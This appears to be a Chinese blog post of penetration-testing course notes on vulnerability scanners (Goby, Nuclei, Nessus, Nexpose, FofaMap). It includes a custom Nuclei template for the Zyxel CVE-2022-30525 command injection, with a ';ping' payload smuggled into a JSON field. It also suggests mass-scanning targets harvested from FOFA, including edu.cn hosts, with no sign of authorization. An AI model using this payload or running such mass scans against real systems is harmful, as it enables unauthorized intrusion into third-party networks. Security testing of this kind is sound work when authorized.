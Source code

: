 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094210392-2060545430.png)

```plain
#知识点：
1、Goby 简单介绍&使用说明
2、Nuclei 简单介绍&使用说明
3、Nessus 简单介绍&使用说明
4、Nexpose 简单介绍&使用说明
5、掌握工具安装使用&原理&联动&适用
市面上有很多漏扫系统工具脚本，课程讲到的基本都是目前主流推荐的优秀项目！
具体项目：Burpsuite，Awvs，Xray，Goby，Afrog，Vulmap，Pocassist，Nessus，Nuclei，Pentestkit，Nexpose，BP插件(HaE,ShiroScan.FastJsonScan,Log4j2Scan等)。

#章节点：
1、漏洞发现-Web&框架层面
2、漏洞发现-服务&中间件层面
3、漏洞发现-APP&小程序层面
4、漏洞发现-PC操作系统层面

Goby是一款新的网络安全测试工具，由赵武Zwell（Pangolin、JSky、FOFA作者）打造，它能够针对一个目标企业梳理最全的攻击面信息，同时能进行高效、实战化漏洞扫描，并快速的从一个验证入口点，切换到横向。能通过智能自动化方式，帮助安全入门者熟悉靶场攻防，帮助攻防服务者、渗透人员更快的拿下目标。

Nuclei是一款基于YAML语法模板的开发的定制化快速漏洞扫描器。它使用Go语言开发，具有很强的可配置性、可扩展性和易用性。 提供 TCP、DNS、HTTP、FILE 等各类协议的扫描，通过强大且灵活的模板，可以使用 Nuclei 模拟各种安全检查。

Nessus号称是世界上最流行的漏洞扫描程序，全世界有超过75000个组织在使用它。该工具提供完整的电脑漏洞扫描服务，并随时更新其漏洞数据库。Nessus不同于传统的漏洞扫描软件，Nessus可同时在本机或远端上遥控，进行系统的漏洞分析扫描。可以扫描操作系统上的漏洞。

Nexpose 是 Rapid7 出品，一款著名的、极佳的商业漏洞扫描工具。跟一般的扫描工具不同，Nexpose 自身的功能非常强大，可以更新其漏洞数据库，以保证最新的漏洞被扫描到。漏洞扫描效率非常高，对于大型复杂网络，可优先考虑使用；对于大型复杂网络，可以优先考虑使用。可以给出哪些漏洞可以被 Metasploit Exploit，哪些漏洞在 Exploit-db 里面有 exploit 的方案。可以生成非常详细的，非常强大的 Report，涵盖了很多统计功能和漏洞的详细信息。虽然没有Web应用程序扫描，但Nexpose涵盖自动漏洞更新以及微软补丁星期二漏洞更新。

项目资源：
Goby：https://github.com/gobysec/Goby/releases
Nuclei：https://github.com/projectdiscovery/nuclei
Nessus：https://mp.weixin.qq.com/s/G-7Yu8sefH3Bo3GRtUo2EA
Nexpose：https://www.fujieace.com/hacker/rapid7-nexpose.html
FofaMAP：https://github.com/asaotomo/FofaMap
```

- Nessus&Nexpose漏扫操作系统漏洞

```plain
没安装成功，都是图形化的界面。也要时常更新，更新他的漏洞库。支持的是操作系统扫描，但是一般来说这些漏洞是很难发现的。

nessus访问：https://localhost:8834/#/

nexpose访问：https://127.0.0.1:3780/
```

- Goby&Nuclei漏扫系统&服务&中间件漏洞

```plain
goby也是可以扫描到系统层面的漏洞，这个借助的poc来进行扫描。这个和nessus和nexpose有区别。


在nuclei中也可以有相对应的poc
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094228597-1864923825.png)

```plain
在这个工具，也能进行信息探针，比如开放什么端口等等。

但是用资产信息来检测漏洞的话，那么就可以探针出来。
执行：nuclei.exe -u http://123.58.236.76:55150
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094228733-2135387840.png)

- Nuclei漏扫特定资产&模版导入&最新漏洞

```plain
使用：
目标：
-u、 -目标字符串[]要扫描的目标URL/主机
-l、 -包含要扫描的目标URL/主机列表的文件的列表字符串路径（每行一个）
-恢复字符串使用resume恢复扫描。cfg（将禁用群集）

模板：
-nt，-新模板仅运行最新Nucleus模板版本中添加的新模板
-as，-自动扫描使用wappalyzer技术检测到标签映射的自动web扫描
-t、 -模板字符串[]要运行的模板或模板目录列表（逗号分隔，文件）
-tu，-模板url字符串[]要运行的模板url列表（逗号分隔，文件）
-w、 -工作流字符串[]要运行的工作流或工作流目录列表（逗号分隔，文件）
-wu，-工作流url字符串[]要运行的工作流url列表（逗号分隔，文件）


比如漏洞：CVE-2022-30525: Zyxel 防火墙远程命令注入漏洞

在nuclei这个官方中刚更新就有集成的。
在这里也可以自己写一个
Zyxel.yaml：
id: CVE-2022-30525

info:
  name: cx
  author: remote
  severity: high
  tags: CVE-2022-30525
  reference: CVE-2022-30525

requests:
  - raw:
      - |
        POST /ztp/cgi-bin/handler HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json; charset=utf-8
        
        {"command": "setWanPortSt","proto": "dhcp","port": "1270","vlan_tagged": "1270","vlanid": "1270","mtu": "{{exploit}}","data":""}
        
        
    payloads:
      exploit:
        - ";ping -c 3 {{interactsh-url}};"
    attack: pitchfork
    matchers:
      - type: word
        part: interactsh_protocol
        name: dns
        words:
          - "dns"



在网上搜索语法：title=="USG FLEX 50 (USG20-VPN)"

执行：nuclei.exe -t 11.yaml -l urls.txt
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094228881-1432142514.png)

```plain
如果第一时间爆了漏洞，但是现在工具还不支持，就可以直接使构造payload去检测这个漏洞是否存在。

借助官方来进行扫描：
nuclei.exe -l url.txt -tags zyxel
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094228633-513043712.png)

- FofaMAP&Nuclei漏扫自动化特定项目漏洞

```plain
fofamap；
安装：G:\python38\Scripts\pip.exe install -r requirements.txt
使用：G:\python38\python.exe fofamap.py -q '"12306.cn"' -s -n
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230914094228542-1141188189.png)

```plain
比如说搜索相同类型的特征，fofa搜索zyxel，在用最新漏洞对这些目标来进行安全测试。

漏扫：
批量特征漏扫
收集：fofa shodan quake zoomeye

特定目标漏扫



常规思路：
对目录做信息收集：
web--awvs xray goby
框架
app
端口服务
服务器系统

部分漏洞--手工分析
信息收集这个部分交给引擎（不建议 除了批量挖洞）这样会信息收集不充分

fofamap 自带了nuclei 利用fofa收集到的目标资产信息在导入到nuclei这个工具上进行扫描。

语法："edu.cn" && port="7001" && title=="Error 404--Not Found"

执行：G:\python38\python.exe fofamap.py -q '"edu.cn" && port="7001" && title=="Error 404--Not Found"' -s -n
```